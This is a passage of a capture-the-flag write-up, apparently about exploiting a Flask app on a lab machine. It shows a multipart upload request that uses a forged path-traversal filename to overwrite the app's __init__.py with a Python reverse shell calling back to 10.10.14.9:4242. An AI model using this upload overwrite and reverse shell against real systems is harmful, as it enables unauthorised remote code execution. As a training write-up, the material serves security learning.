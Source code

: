 ```http
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
and get the following:  
```http
HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.10.3
Date: Tue, 02 Aug 2022 08:45:38 GMT
Content-Disposition: inline; filename=cmdline
Content-Type: application/octet-stream
Content-Length: 0
Last-Modified: Tue, 02 Aug 2022 08:45:38 GMT
Cache-Control: no-cache
ETag: "1659429938.795898-0-1050805960"
Date: Tue, 02 Aug 2022 08:45:38 GMT
Connection: close

/usr/local/bin/python /app/run.py 
```
Now we can assume that the app is running under `/app/`.
Now that we have more information on the application, since this is a flask application, we need to check what kind of file we can upload to achieve an RCE.  
Poking around on google we can come across [this source](https://ajinabraham.com/blog/exploiting-insecure-file-extraction-in-python-for-code-execution) that explains how to get an RCE with arbitrary file upload by overwriting the `__init__.py` file.  

## Foothold
### Method 1 - Arbitrary File Upload, `__init__.py` Overwrite
Once we have a foothold path, we can create a python reverse shell payload and forge the `filename` field in order to leverage a path traversal file upload and get an RCE:  
```http
POST /upcloud HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------287371904330582195774088103722
Content-Length: 447
Origin: http://10.10.11.164
Connection: close
Referer: http://10.10.11.164/upcloud
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

-----------------------------287371904330582195774088103722
Content-Disposition: form-data; name="file"; filename="..//..//..//..//app/app/__init__.py"
Content-Type: text/x-python

import socket,os,pty;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.9",4242));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/sh")

```